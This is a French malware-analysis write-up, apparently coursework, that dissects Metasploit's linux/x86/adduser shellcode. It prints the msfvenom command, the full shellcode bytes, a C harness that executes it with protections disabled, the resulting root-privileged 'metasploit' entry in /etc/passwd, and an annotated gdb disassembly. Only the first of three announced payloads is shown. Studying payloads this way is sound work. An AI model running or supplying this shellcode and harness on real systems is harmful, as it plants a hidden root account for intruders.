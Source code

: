 # Analyse de trois payload issus générés via metasploit #

Métasploit propose plusieurs payload présentés ci-dessous :

<img src = "../assets/images/6_01.png">


Nous allons procéder à l'analyse des trois premiers.

## Premier payload, adduser: ##

Nous générons le code avec la commande :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c
```
```c
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Le shellcode est copié dans un fichier shellcode.c afin de pouvoir procéder à l'analyse.

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Puis compilé :

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Nous executons le programme et observons les modifications :

```c
./shellcode
more /etc/passwd | grep metasploit
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Il y a effectivememnt un utilisateur qui vient d'être ajouté.


On lance gdb et nous voyons qu'un call vers la fonction prinf de libc est executé.
La valeur 40 et la chaine taille\n sont également posées sur la pile.

```c
   0x8048419 <main+14>:	sub    esp,0x14
   0x804841c <main+17>:	sub    esp,0x8
   0x804841f <main+20>:	push   0x28
=> 0x8048421 <main+22>:	push   0x8048562
   0x8048426 <main+27>:	call   0x80482e0 <printf@plt>
   0x804842b <main+32>:	add    esp,0x10
   0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
   0x8048435 <main+42>:	mov    eax,DWORD PTR [ebp-0xc]

   gdb-peda$ x/s 0x8048562
   0x8048562:	"taille %d\n"
```



A l'adresse 0x804842e l'adresse de la fonction à étudier(0x8048500) est mise sur la pile.

```c
=> 0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
```

En observant un peu en mémoire à l'adresse 0x804852b, nous trouvons la chaine qui est présente dans le fichier /etc/passwd.

```c
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

A l'adresse 0x8048438, la commande call eax est l'appel qui va nous interesser, il est détaillé ci-dessous.

```asm
    
    ;setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ;setreuid(0)

=> 0x08048500 <+0>:	xor    ecx,ecx
   0x08048502 <+2>:	mov    ebx,ecx
   0x08048504 <+4>:	push   0x46
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80                 

    ;open syscall (open file /etc/passwd)

   0x08048509 <+9>:	    push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373		;dwss
   0x08048514 <+20>:	push   0x61702f2f		;ap//
   0x08048519 <+25>:	push   0x6374652f		;cte/
   0x0804851e <+30>:	mov    ebx,esp
   0x08048520 <+32>:	inc    ecx              
   0x08048521 <+33>:	mov    ch,0x4			; ecx = 0x401 = s_ixoth and s_irusr (read and execute)
   0x08048523 <+35>:	int    0x80			    
   0x08048525 <+37>:	xchg   ebx,eax

    ; call 0x8048553 with arg[0]: 0x6374652f ('/etc')
    ; arg[1]: 0x61702f2f ('//pa')
    ; arg[2]: 0x64777373 ('sswd')
    ; arg[3]: 0x0 


   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; Copie le contenu de ecx dans le fichier /etc/passwd

    [----------------------------------registers-----------------------------------]
        EAX: 0x4        ; write syscall
        EBX: 0xfffffff3 ; pointeur vers le fichier /etc/passwd
        ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") ; chaîne à copier
        EDX: 0x28 ('(') ;taille de la chaine à copier
        ESI: 0xf7fb7000 --> 0x1afdb0 
        EDI: 0xf7fb7000 --> 0x1afdb0 
        EBP: 0xffffcf78 --> 0x0 
        ESP: 0xffffcf4c ("/etc//passwd")
        EIP: 0x804855a --> 0x16a80cd
        EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
        [-------------------------------------code-------------------------------------]
        0x8048556 <code+86>:	cld    
        0x8048557 <code+87>:	push   0x4
        0x8048559 <code+89>:	pop    eax
        => 0x804855a <code+90>:	int    0x80
        0x804855c <code+92>:	push   0x1
        0x804855e <code+94>:	pop    eax
        0x804855f <code+95>:	int    0x80
        0x8048561 <code+97>:	add    BYTE PTR [ecx+eiz*2+0x69],dh
    [------------------------------------stack-------------------------------------]

    ; Le reste du code n'est pas exécuté
    
   0x0804852b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804852c <+44>:	gs je  0x8048590
   0x0804852f <+47>:	jae    0x80485a1
   0x08048531 <+49>:	ins    BYTE PTR es:[edi],dx
   0x08048532 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x08048533 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804853b <+59>:	jae    0x80485a7
   0x0804853d <+61>:	xor    al,0x70
   0x0804853f <+63>:	xor    al,0x49
   0x08048541 <+65>:	push   edx
   0x08048542 <+66>:	arpl   WORD PTR [edx],di
   0x08048544 <+68>:	xor    BYTE PTR [edx],bh
   0x08048546 <+70>:	xor    BYTE PTR [edx],bh
   0x08048548 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804854a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804854c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804854f <+79>:	das    
   0x08048550 <+80>:	jae    0x80485ba
   0x08048552 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   

   ; write

   0x08048557 <+87>:	push   0x4
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80			

    ; exit 

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80			
```





